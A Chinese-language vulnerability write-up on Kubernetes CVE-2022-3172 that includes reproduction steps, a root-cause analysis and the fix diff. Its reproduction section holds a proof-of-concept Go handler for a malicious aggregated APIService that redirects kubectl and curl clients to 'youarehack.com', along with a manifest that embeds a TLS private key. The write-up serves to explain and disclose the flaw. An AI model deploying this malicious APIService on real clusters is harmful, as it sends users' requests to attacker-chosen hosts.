

# 漏洞分析

## 一、漏洞基本信息

| Item                        | Details                                          | Note                                        |
|-----------------------------|--------------------------------------------------|---------------------------------------------|
| Project                     | Kubernetes                                       |                                             |
| CVE-ID                      | CVE-2022-3172                                    |                                             |
| Vuln's Author               | Nicolas Joly & Weinong Wang                      | Microsoft                                   |
| CVSS                        | 5.1 CVSS:3.1/AV:N/AC:H/PR:H/UI:R/S:C/C:L/I:L/A:L |                                             |
| Exploits                    |                                                  |                                             |
| Affect Version              | v1.25.0, v1.24.0 - v1.24.4, v1.23.0 - v1.23.10, v1.22.0 - v1.22.13, <= v1.21.14  |             |
| Fix Version                 | v1.25.1, v1.24.5, v1.23.11, V1.22.14             |                                             |
| Original Report             |                                                  |                                             |
| Fix Commit                  | [commit](https://github.com/kubernetes/kubernetes/commits/1f72d5d61330dd6b4f1241b96ad44aab5131f7fe)  |   |
| Introduce Commit            |                                                  |                                             |
| Publish Date                | 2023-11-03                                       |                                             |
| Introduce Date              |                                                  |                                             |


## 二、组件简介
`kube-apiserver`为kubernetes核心组件，提供对资源的增删改查及鉴权等功能，所有对资源的访问请求都要经过`kube-apiserver`

## 三、漏洞详情

### 1. 介绍
在kubernetes中，可以通过创建`APIService`将自定义的`apiserver`集成到`kube-apiserver`，当自定义的`apiserver`有恶意行为时，可能会影响到客户端。以此漏洞为例，恶意的自定义`apiserver`可以重定向客户端的请求到任意地址


### 2. 影响
如果存在以下情况，则会导致重定向客户端请求
- 集群内存在恶意的`APIService`
- 用户访问该`APIService`提供的资源

## 四、防御
更新到修复版本

## 五、漏洞复现

### 1. 复现环境

- 创建包含漏洞版本的集群
```shell
kind create cluster -n cve-2022-3172 --image kindest/node:v1.21.10
```

### 2. 复现过程

- 下载自定义[apiserver](https://github.com/phosae/x-kubernetes/archive/refs/tags/v0.0.1.tar.gz)，[文档](https://www.zeng.dev/post/2023-k8s-apiserver-aggregation-internals/)。或者下载已修改好的版本[apiserver修改](./apiserver-from-scratch.tar.gz)，直接构建镜像部署即可
- 进入目录`apiserver-from-scratch`
- 修改`main.go`中的`logHandler`函数
```
func logHandler(ha http.Handler) http.Handler {
    return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
        userAgent := r.Header.Get("User-Agent")
        rr, _ := httputil.DumpRequest(r, true)
        if strings.Contains(userAgent, "curl") || strings.Contains(userAgent, "kubectl") {
            log.Println("redirect", string(rr))
            // 如果User-Agent头部包含kubectl或curl，则重定向到youarehack.com
            http.Redirect(w, r, "http://youarehack.com", http.StatusFound)
            return
        }
        log.Println("rx", string(rr))
        ha.ServeHTTP(w, r)
    })  
}
```
- 创建`Dockerfile`
```
FROM golang:1.20 as build
WORKDIR /go/src/apiserver
COPY . .
RUN CGO_ENABLED=0 GOARCH=amd64 GOOS=linux GOPROXY="https://goproxy.cn" go build .
RUN ls -l /go/src/apiserver/

FROM ubuntu
COPY --from=build /go/src/apiserver/apiserver-from-scratch /
ENTRYPOINT ["/apiserver-from-scratch"]
```
- 构建镜像`afs:1.0`
```shell
docker build . -t afs:1.0
```
- 导入镜像
```shell
kind load docker-image afs:1.0 -n cve-2022-3172
```
- 创建`deploy.yaml`
```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  labels:
    app: api-scratch
  name: api-scratch
  namespace: default
spec:
  replicas: 1
  selector:
    matchLabels:
      app: api-scratch
  template:
    metadata:
      labels:
        app: api-scratch
    spec:
      containers:
        - image: afs:1.0
          name: apiserver
          env:
            - name: CERT_DIR
              value: /etc/app/cert
          volumeMounts:
            - name: cert
              mountPath: /etc/app/cert
      terminationGracePeriodSeconds: 3
      volumes:
        - name: cert
          secret:
            secretName: api-svc-cert
---
apiVersion: v1
kind: Service
metadata:
  labels:
    app: api-scratch
  name: api-scratch
  namespace: default
spec:
  ports:
    - port: 443
      protocol: TCP
      targetPort: 6443
  selector:
    app: api-scratch
---
apiVersion: v1
data:
  apiserver.crt: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUNNVENDQWRlZ0F3SUJBZ0lSQU1rOUo2a1BLMCt2ejNKTlIveGhBaUl3Q2dZSUtvWkl6ajBFQXdJd0ZURVQKTUJFR0ExVUVDaE1LUzNWaVpYSnVaWFJsY3pBZ0Z3MDNNREF4TURFd01EQXdNREJhR0E4eU1EZzBNREV5T1RFMgpNREF3TUZvd0ZURVRNQkVHQTFVRUNoTUtTM1ZpWlhKdVpYUmxjekJaTUJNR0J5cUdTTTQ5QWdFR0NDcUdTTTQ5CkF3RUhBMElBQkhlTWFRYlFDM0FKdnpNSnVrdlpuMWRwdk96Z2lyV0p3QTR4RDJHSXJYazhFRFlJMmZOczl3VzMKVUV4RW1GT0V4R2g5Y1ozUGpYajNkRk9wVm5sOXAvbWpnZ0VFTUlJQkFEQU9CZ05WSFE4QkFmOEVCQU1DQW9RdwpFd1lEVlIwbEJBd3dDZ1lJS3dZQkJRVUhBd0V3RHdZRFZSMFRBUUgvQkFVd0F3RUIvekFkQmdOVkhRNEVGZ1FVClRzTDRWSWtNemdjWjNkdHdKZ2g1YiszcCtUUXdnYWdHQTFVZEVRU0JvRENCbllJTktpNXJkV0psTFhONWMzUmwKYllJUktpNXJkV0psTFhONWMzUmxiUzV6ZG1PQ0h5b3VhM1ZpWlMxemVYTjBaVzB1YzNaakxtTnNkWE4wWlhJdQpiRzlqWVd5Q0NTb3VaR1ZtWVhWc2RJSU5LaTVrWldaaGRXeDBMbk4yWTRJYktpNWtaV1poZFd4MExuTjJZeTVqCmJIVnpkR1Z5TG14dlkyRnNnZ2xzYjJOaGJHaHZjM1NIQkg4QUFBR0hFQUFBQUFBQUFBQUFBQUFBQUFBQUFBRXcKQ2dZSUtvWkl6ajBFQXdJRFNBQXdSUUlnSW1PU01sYVNJVVFxeCt6amhuMFFqWVY0VFNrS1JXZ1FyZ0F3MkVFVQpaS1VDSVFDL2RYZmx3TnI3N3dGbnQ5dSt5aThBZVp0c3ZZVFVCdmtpZEQvR2lYbml3QT09Ci0tLS0tRU5EIENFUlRJRklDQVRFLS0tLS0K
  apiserver.key: LS0tLS1CRUdJTiBQUklWQVRFIEtFWS0tLS0tCk1JR0hBZ0VBTUJNR0J5cUdTTTQ5QWdFR0NDcUdTTTQ5QXdFSEJHMHdhd0lCQVFRZ1NMczFWdHI3VjVnWndDZjkKRUJnZ3hSQUZRRGw3d2luQTZwTXU3SGNUK3phaFJBTkNBQVIzakdrRzBBdHdDYjh6Q2JwTDJaOVhhYnpzNElxMQppY0FPTVE5aGlLMTVQQkEyQ05uemJQY0Z0MUJNUkpoVGhNUm9mWEdkejQxNDkzUlRxVlo1ZmFmNQotLS0tLUVORCBQUklWQVRFIEtFWS0tLS0tCg==
kind: Secret
metadata:
  name: api-svc-cert
  namespace: default
type: Opaque
---
apiVersion: apiregistration.k8s.io/v1
kind: APIService
metadata:
  name: v1.hello.zeng.dev
spec:
  service:
    name: api-scratch
    namespace: default
  group: hello.zeng.dev
  version: v1
  insecureSkipTLSVerify: true
  groupPriorityMinimum: 100
  versionPriority: 100
```
- 部署
```shell
kubectl apply -f deploy.yaml 
```
- 查看服务是否运行正常
```
kubectl get apiservices.apiregistration.k8s.io/v1.hello.zeng.dev

NAME                SERVICE               AVAILABLE   AGE
v1.hello.zeng.dev   default/api-scratch   True        36s
```
- 创建访问代理
```
kubectl proxy &
```
- 访问资源，返回重定向请求，使用`curl -L`即可直接自动重定向到指定地址，用`kubectl`也会自动重定向
```
curl http://127.0.0.1:8001/apis/hello.zeng.dev/v1

<a href="http://youarehack.com">Found</a>.
```


## 六、漏洞分析

### 1. 原始特性分析
`kube-apiserver`作为访问代理时，默认转发一切请求

### 2. 调用链分析

1. 在`kube-apiserver`初始化的时候会调用`createAggregatorServer`创建一个`aggregatorServer`对象，在其中会创建一个控制器用于监视`APIService`资源`apiserviceRegistrationController := NewAPIServiceRegistrationController(informerFactory.Apiregistration().V1().APIServices(), s)`
2. 在创建`APIService`资源时，会调用`func (s *APIAggregator) AddAPIService(apiService *v1.APIService)`创建一个`proxyHandler`来转发请求到对应的后端服务上
3. `proxyHandler`的`func (r *proxyHandler) ServeHTTP`会处理对应的HTTP请求，具体处理的方式是通过创建`NewUpgradeAwareHandler`来实现，具体处理函数是`func (h *UpgradeAwareHandler) ServeHTTP`，最终调用go标准库`httputil.NewSingleHostReverseProxy`

### 3. 漏洞分析
`kube-apiserver`在转发请求时没有检查对端服务的返回包，会直接把返回包转发给客户端。如果对端服务返回`HTTP 302`这种重定向包，那么客户端就会直接收到重定向包，并被转移到其他的地址上。具体代码如下：

```go
// ServeHTTP handles the proxy request
func (h *UpgradeAwareHandler) ServeHTTP(w http.ResponseWriter, req *http.Request) {
	if h.tryUpgrade(w, req) {
		return
	}
	if h.UpgradeRequired {
		h.Responder.Error(w, req, errors.NewBadRequest("Upgrade request required"))
		return
	}

	loc := *h.Location
	loc.RawQuery = req.URL.RawQuery

  ...

  proxy := httputil.NewSingleHostReverseProxy(&url.URL{Scheme: h.Location.Scheme, Host: h.Location.Host})
  proxy.Transport = h.Transport
  proxy.FlushInterval = h.FlushInterval
  proxy.ErrorLog = log.New(noSuppressPanicError{}, "", log.LstdFlags)
  if h.Responder != nil {
      // if an optional error interceptor/responder was provided wire it
      // the custom responder might be used for providing a unified error reporting
      // or supporting retry mechanisms by not sending non-fatal errors to the clients
      proxy.ErrorHandler = h.Responder.Error
  }   
  proxy.ServeHTTP(w, newReq)  
```

## 七、漏洞修复分析
给`kube-apiserver`增加了启动参数`--aggregator-reject-forwarding-redirect`，默认是`true`，即拒绝转发重定向请求。`proxyHandler`在调用`NewUpgradeAwareHandler`创建`UpgradeAwareHandler`对象后，设置了`handler.RejectForwardingRedirects = true`，之后在`func (h *UpgradeAwareHandler) ServeHTTP`中会检查`RejectForwardingRedirects`的值，并进行相应处理

```patch
diff --git a/cmd/kube-apiserver/app/aggregator.go b/cmd/kube-apiserver/app/aggregator.go
index ce90f4080f76..1ec89a0e8bc9 100644
--- a/cmd/kube-apiserver/app/aggregator.go
+++ b/cmd/kube-apiserver/app/aggregator.go
@@ -110,10 +110,11 @@ func createAggregatorConfig(
 			SharedInformerFactory: externalInformers,
 		},
 		ExtraConfig: aggregatorapiserver.ExtraConfig{
-			ProxyClientCertFile: commandOptions.ProxyClientCertFile,
-			ProxyClientKeyFile:  commandOptions.ProxyClientKeyFile,
-			ServiceResolver:     serviceResolver,
-			ProxyTransport:      proxyTransport,
+			ProxyClientCertFile:       commandOptions.ProxyClientCertFile,
+			ProxyClientKeyFile:        commandOptions.ProxyClientKeyFile,
+			ServiceResolver:           serviceResolver,
+			ProxyTransport:            proxyTransport,
+			RejectForwardingRedirects: commandOptions.AggregatorRejectForwardingRedirects,
 		},
 	}
 
diff --git a/cmd/kube-apiserver/app/options/options.go b/cmd/kube-apiserver/app/options/options.go
index 32c777c192f4..75970f425469 100644
--- a/cmd/kube-apiserver/app/options/options.go
+++ b/cmd/kube-apiserver/app/options/options.go
@@ -80,7 +80,8 @@ type ServerRunOptions struct {
 	ProxyClientCertFile string
 	ProxyClientKeyFile  string
 
-	EnableAggregatorRouting bool
+	EnableAggregatorRouting             bool
+	AggregatorRejectForwardingRedirects bool
 
 	MasterCount            int
 	EndpointReconcilerType string
@@ -136,7 +137,8 @@ func NewServerRunOptions() *ServerRunOptions {
 			},
 			HTTPTimeout: time.Duration(5) * time.Second,
 		},
-		ServiceNodePortRange: kubeoptions.DefaultServiceNodePortRange,
+		ServiceNodePortRange:                kubeoptions.DefaultServiceNodePortRange,
+		AggregatorRejectForwardingRedirects: true,
 	}
 
 	// Overwrite the default for storage data format.
@@ -268,6 +270,9 @@ func (s *ServerRunOptions) Flags() (fss cliflag.NamedFlagSets) {
 	fs.BoolVar(&s.EnableAggregatorRouting, "enable-aggregator-routing", s.EnableAggregatorRouting,
 		"Turns on aggregator routing requests to endpoints IP rather than cluster IP.")
 
+	fs.BoolVar(&s.AggregatorRejectForwardingRedirects, "aggregator-reject-forwarding-redirect", s.AggregatorRejectForwardingRedirects,
+		"Aggregator reject forwarding redirect response back to client.")
+
 	fs.StringVar(&s.ServiceAccountSigningKeyFile, "service-account-signing-key-file", s.ServiceAccountSigningKeyFile, ""+
 		"Path to the file that contains the current private key of the service account token issuer. The issuer will sign issued ID tokens with this private key.")

diff --git a/staging/src/k8s.io/apimachinery/pkg/util/proxy/upgradeaware.go b/staging/src/k8s.io/apimachinery/pkg/util/proxy/upgradeaware.go
index 8ef16eeb63fc..0e40a6a5c8dd 100644
--- a/staging/src/k8s.io/apimachinery/pkg/util/proxy/upgradeaware.go
+++ b/staging/src/k8s.io/apimachinery/pkg/util/proxy/upgradeaware.go
@@ -86,6 +86,8 @@ type UpgradeAwareHandler struct {
 	MaxBytesPerSec int64
 	// Responder is passed errors that occur while setting up proxying.
 	Responder ErrorResponder
+	// Reject to forward redirect response
+	RejectForwardingRedirects bool
 }
 
 const defaultFlushInterval = 200 * time.Millisecond
@@ -243,6 +245,31 @@ func (h *UpgradeAwareHandler) ServeHTTP(w http.ResponseWriter, req *http.Request
 	proxy.Transport = h.Transport
 	proxy.FlushInterval = h.FlushInterval
 	proxy.ErrorLog = log.New(noSuppressPanicError{}, "", log.LstdFlags)
+	if h.RejectForwardingRedirects {
+		oldModifyResponse := proxy.ModifyResponse
+		proxy.ModifyResponse = func(response *http.Response) error {
+			code := response.StatusCode
+			if code >= 300 && code <= 399 {
+				// close the original response
+				response.Body.Close()
+				msg := "the backend attempted to redirect this request, which is not permitted"
+				// replace the response
+				*response = http.Response{
+					StatusCode:    http.StatusBadGateway,
+					Status:        fmt.Sprintf("%d %s", response.StatusCode, http.StatusText(response.StatusCode)),
+					Body:          io.NopCloser(strings.NewReader(msg)),
+					ContentLength: int64(len(msg)),
+				}
+			} else {
+				if oldModifyResponse != nil {
+					if err := oldModifyResponse(response); err != nil {
+						return err
+					}
+				}
+			}
+			return nil
+		}
+	}
 	if h.Responder != nil {
 		// if an optional error interceptor/responder was provided wire it
 		// the custom responder might be used for providing a unified error reporting

diff --git a/staging/src/k8s.io/kube-aggregator/pkg/apiserver/apiserver.go b/staging/src/k8s.io/kube-aggregator/pkg/apiserver/apiserver.go
index 912645a35ec6..4a68914222f6 100644
--- a/staging/src/k8s.io/kube-aggregator/pkg/apiserver/apiserver.go
+++ b/staging/src/k8s.io/kube-aggregator/pkg/apiserver/apiserver.go
@@ -84,6 +84,8 @@ type ExtraConfig struct {
 
 	// Mechanism by which the Aggregator will resolve services. Required.
 	ServiceResolver ServiceResolver
+
+	RejectForwardingRedirects bool
 }
 
 // Config represents the configuration needed to create an APIAggregator.
@@ -147,6 +149,9 @@ type APIAggregator struct {
 	// egressSelector selects the proper egress dialer to communicate with the custom apiserver
 	// overwrites proxyTransport dialer if not nil
 	egressSelector *egressselector.EgressSelector
+
+	// rejectForwardingRedirects is whether to allow to forward redirect response
+	rejectForwardingRedirects bool
 }
 
 // Complete fills in any fields not set that are required to have valid data. It's mutating the receiver.
@@ -193,6 +198,7 @@ func (c completedConfig) NewWithDelegate(delegationTarget genericapiserver.Deleg
 		openAPIConfig:              c.GenericConfig.OpenAPIConfig,
 		egressSelector:             c.GenericConfig.EgressSelector,
 		proxyCurrentCertKeyContent: func() (bytes []byte, bytes2 []byte) { return nil, nil },
+		rejectForwardingRedirects:  c.ExtraConfig.RejectForwardingRedirects,
 	}
 
 	// used later  to filter the served resource by those that have expired.
@@ -389,6 +395,7 @@ func (s *APIAggregator) AddAPIService(apiService *v1.APIService) error {
 		proxyTransport:             s.proxyTransport,
 		serviceResolver:            s.serviceResolver,
 		egressSelector:             s.egressSelector,
+		rejectForwardingRedirects:  s.rejectForwardingRedirects,
 	}
 	proxyHandler.updateAPIService(apiService)
 	if s.openAPIAggregationController != nil {
diff --git a/staging/src/k8s.io/kube-aggregator/pkg/apiserver/handler_proxy.go b/staging/src/k8s.io/kube-aggregator/pkg/apiserver/handler_proxy.go
index b2122ae6a084..0d963da48a20 100644
--- a/staging/src/k8s.io/kube-aggregator/pkg/apiserver/handler_proxy.go
+++ b/staging/src/k8s.io/kube-aggregator/pkg/apiserver/handler_proxy.go
@@ -70,6 +70,9 @@ type proxyHandler struct {
 	// egressSelector selects the proper egress dialer to communicate with the custom apiserver
 	// overwrites proxyTransport dialer if not nil
 	egressSelector *egressselector.EgressSelector
+
+	// reject to forward redirect response
+	rejectForwardingRedirects bool
 }
 
 type proxyHandlingInfo struct {
@@ -176,6 +179,9 @@ func (r *proxyHandler) ServeHTTP(w http.ResponseWriter, req *http.Request) {
 	handler := proxy.NewUpgradeAwareHandler(location, proxyRoundTripper, true, upgrade, &responder{w: w})
 	handler.InterceptRedirects = utilfeature.DefaultFeatureGate.Enabled(genericfeatures.StreamingProxyRedirects)
 	handler.RequireSameHostRedirects = utilfeature.DefaultFeatureGate.Enabled(genericfeatures.ValidateProxyRedirects)
+	if r.rejectForwardingRedirects {
+		handler.RejectForwardingRedirects = true
+	}
 	utilflowcontrol.RequestDelegated(req.Context())
 	handler.ServeHTTP(w, newReq)
 }
```

## 八、漏洞挖掘方法与过程

## 九、同类问题挖掘方法

### 设计实现层

### Fuzz

### codeql

## 十、时间线

